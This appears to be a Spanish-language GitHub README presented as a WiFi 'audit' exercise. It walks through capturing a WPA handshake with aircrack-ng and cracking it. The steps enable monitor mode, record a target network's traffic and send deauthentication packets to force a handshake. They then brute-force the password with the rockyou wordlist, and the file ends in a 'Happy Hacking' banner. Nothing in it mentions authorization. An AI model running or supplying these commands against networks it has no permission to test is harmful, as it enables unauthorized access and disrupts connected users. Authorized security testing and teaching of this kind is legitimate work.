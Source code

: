 # Auditorias de WIFI
Para este ejercicio de Auditoria Wifi, se implementara la tecnica que activa la antena Wifi en modo monitor, asi como el uso de herramientas que nos ayuden a monitorear y obtener los campos requeridos para lograr el objetivo.

## Herramienta 🛠️
* Aircrack-NG
* Rockyou : Diccionario

## Pasos para la Auditoria
1. Descargar el Diccionario Rockyou
2. Crear directorio de trabajo 

```bash
mkdir nuevoDir
```

3. Hubicar el diccionario(rockyou.txt) descargado en el directorio de trabajo.

```bash
mv rockyou.txt /nuevoDir
```

4. Dentro del directorio de trabajo, instalar "aircrack".

```bash
sudo apt install aircrack-ng
```

5. Poner la antena Wifi en modo monitor.
```bash
ifconfig
sudo airmon-ng start NombreInterfaz
```

6. Enlistar las redes Wifi alrededor.
```bash
sudo airodump-ng nombreInterfazMon
```

7. Obtener el BSSID y CH del Wifi a auditar.

8. Guardamos el trafico de la red para obtener luego datos a auditar. Aircrack espera en la red si un usuario navega para darnos informacion valiosa
```bash
sudo airodump-ng -c canalObtenido --bssid BSSIDobtenido -W nombreGuardar NombreInterfaz
```

9. Guardar el campo STATION que devuelva el monitoreo cuando un usuario navegue en la red (dejar corriendo la terminal monitoreando). OJO: no cerrarla

10. En una nueva terminal. Ejecutar el siguiente comando para enviarle trafico a la red Target. Este proceso se recomienda hacerlo de 2 a 3 veces hasta conseguir el dato de Handshake 
```bash
sudo aireplay-ng -0 9 -a BSSID -c STATION NombreInterfaz
```
Copiar el handshake que se obtiene en la terminar que esta monitoreando la red, durante el envio de paquetes. 


11. Terminar el proceso de monitorio y enlistar el directorio actual. Se vera como se crearon unos archivos con los datos monitoreados.

Para realizar el ataque final de fuerza bruta haremos uso del archivo con extension .cap generado.


12. Comando para realizar ataque de fuerza bruta.
```bash
sudo aircrack-ng -b Handshake -w rockyou.txt auditoria.cap 
```

13. Restablecer antena de modo monitoreo
```bash
sudo airmon-ng stop Interfaz
```

```bash
 _   _                           _   _            _    _             
| | | | __ _ _ __  _ __  _   _  | | | | __ _  ___| | _(_)_ __   __ _ 
| |_| |/ _` | '_ \| '_ \| | | | | |_| |/ _` |/ __| |/ / | '_ \ / _` |
|  _  | (_| | |_) | |_) | |_| | |  _  | (_| | (__|   <| | | | | (_| |
|_| |_|\__,_| .__/| .__/ \__, | |_| |_|\__,_|\___|_|\_\_|_| |_|\__, |
            |_|   |_|    |___/                                 |___/ 

```









